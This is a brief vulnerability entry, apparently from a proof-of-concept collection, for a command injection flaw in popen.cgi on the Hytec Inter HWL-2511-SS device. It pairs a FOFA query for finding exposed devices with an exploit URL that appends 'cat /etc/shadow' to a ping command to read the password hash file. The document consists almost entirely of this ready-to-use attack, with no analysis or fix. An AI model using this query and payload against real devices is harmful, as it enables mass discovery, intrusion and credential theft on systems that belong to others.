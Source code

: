 ## Hytec Inter HWL-2511-SS popen.cgi命令注入漏洞

## fofa
```
title="index" && header="lighttpd/1.4.30"
```

### poc
```

/cgi-bin/popen.cgi?command=ping%20-c%204%201.1.1.1;cat%20/etc/shadow&v=0.1303033443137921
```
